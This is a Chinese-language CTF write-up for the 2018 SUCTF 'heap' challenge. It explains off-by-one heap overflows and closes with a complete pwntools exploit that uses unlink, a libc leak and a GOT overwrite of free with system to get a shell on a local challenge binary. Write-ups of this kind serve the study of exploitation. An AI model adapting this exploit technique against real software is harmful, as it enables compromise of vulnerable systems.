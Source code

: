 ```yaml
---
title: '2018-SUCTF-Heap-[off by one,unlink]'
date: 2019-03-24 21:28:26
tags: [off by one,unlink,x64]
---
```


### 0x00 off by one
off by one 是指一种单字节的缓冲区溢出，即程序向缓冲区中写入数据时，写入的字节数超过了缓冲区的大小，并且只溢出了一个字节，这种漏洞一般与边界验证不严谨和字符串操作不严谨有关。其中字符串操作不严谨包括
1.  使用循环语句向堆写入数据时出现问题。比如循环次数设置错误，或者向有效数据区外多写一个字节数据
2.  字符串操作不当，比如strcpy函数
针对第一种情况，比如2016-BCTF-bcloud这题，程序自己定义了一个用for实现的写入函数：
```C
int __cdecl sub_804868D(int a1, int a2, char a3)
{
  char buf; // [esp+1Bh] [ebp-Dh]
  int i; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i < a2; ++i )
  {
    if ( read(0, &buf, 1u) <= 0 )
      exit(-1);
    if ( buf == a3 )
      break;
    *(_BYTE *)(a1 + i) = buf;
  }
  *(_BYTE *)(i + a1) = 0;   //* off by one
  return i;
}
```
但是在循环外多赋值了一次，在本该写入数据的数据区外多赋值了一个\x00，这个\x00是为了加入字符串截断符，但是应该也要为这个截断符多申请一个字节的空间，造成了在有效数据区外写入一个数据，而多写的一个字节的数据刚好被是堆指针覆盖，造成可以泄露堆指针，修改topchunk的SIZE。

这个题是字符串操作不当造成的off by one

### 0x01 程序分析
```
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```
```
./heap
1:creat
2:delet
3:show
4:edit
```
程序向堆中写入数据时，没有加入字符串截断符\x00，导致使用strcpy函数时，从缓冲区拷贝了多余预期的数据到堆内存中，导致当前堆数据长度为本身堆数据长度加上下一个堆的prev_size+SIZE的一个字节。
```c
    s_data = malloc(nbytes);
    s = malloc(nbytes);
    memset(s, 0, nbytes);
    memset(s_data, 0, nbytes);
    puts("input your data");
    read(0, s_data, (unsigned int)nbytes);
    strcpy((char *)s, (const char *)s_data);
```
而程序的edit函数是根据堆长度修改堆数据，所以可以修改nextchunk的SIZE的p标志位，就可以触发freechunk的合并，适当构造chunk内容，就可以利用unlink获得可控指针，进而实现任意地址的读写。
### 0x02 EXP
```python
#!/usr/bin/env python
from pwn import *
p = process('./heap')
elf = ELF('./heap')
libc = ELF('./libc')

DEBUG = 0
VERBOSE = 0
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def creat(lenth,content):
	p.recvuntil('4:edit')
	p.sendline('1')
	p.recvuntil('len')
	p.sendline(str(lenth))
	p.recvuntil('data')
	p.send(content)

def delete(idx):
	p.recvuntil('4:edit')
	p.sendline('2')
	p.recvuntil('id')
	p.sendline(str(idx))

def show(idx):
	p.recvuntil('4:edit')
	p.sendline('3')
	p.recvuntil('id')
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil('4:edit')
	p.sendline('4')
	p.recvuntil('id')
	p.sendline(str(idx))
	p.recvuntil('data')
	p.send(content)


def pwn():
	heap_form3 = 0x6020d8
	creat(0x80,'bbbbbbbb')	#0  0x6020c0
	creat(0x80,'/bin/sh;')	#1	0x6020c8
	creat(0x80,'bbbbbbbb')	#2	0x6020d0
	creat(0x88,'a'*0x98)	  #3	0x6020d8
	creat(0x80,'bbbbbbbb')	#4	0x6020e0
	payload = p64(0)+p64(0)
	payload += p64(heap_form3-0x18)+p64(heap_form3-0x10)
	payload = payload.ljust(0x80,'a')
	payload += p64(0x80)
	payload += '\x90'
	edit(3,payload)
	delete(4)

	payload = p64(elf.got['free'])
	edit(3,payload)
	show(0)
	free_addr = p.recvuntil('1:creat')[1:-7].ljust(8,'\x00')
	free_addr = u64(free_addr)
	libc_base = free_addr - libc.symbols['free']
	log.success('libc_base: '+hex(libc_base))
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr: '+hex(system_addr))
	edit(0,p64(system_addr))
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()
```
